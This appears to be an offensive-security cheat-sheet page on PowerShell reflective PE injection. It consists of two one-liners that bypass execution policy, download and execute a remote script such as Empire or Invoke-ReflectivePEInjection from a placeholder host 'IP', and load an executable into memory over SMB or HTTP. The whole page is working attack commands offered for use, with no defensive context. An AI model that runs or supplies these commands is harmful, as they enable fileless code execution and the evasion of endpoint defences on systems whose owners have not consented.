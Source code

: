 # Powershell PE Reflective Injection

<details>

<summary>Reflective PE Injection over SMB</summary>

```powershell
powershell -ep bypass -sta -nop -c "iex (iwr http://IP/empire.ps1 -UseBasicParsing); $PEBytes = [IO.File]::ReadAllBytes('\\IP\\Share\\File'); Invoke-ReflectivePEInjection -PEBytes $PEBytes"
```

</details>

<details>

<summary>Reflective PE Injection over HTTP</summary>

```powershell
powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-ReflectivePEInjection.ps1.1 -UseBasicParsing);Invoke-ReflectivePEInjection -PEURL http://IP/file.exe"
```

</details>
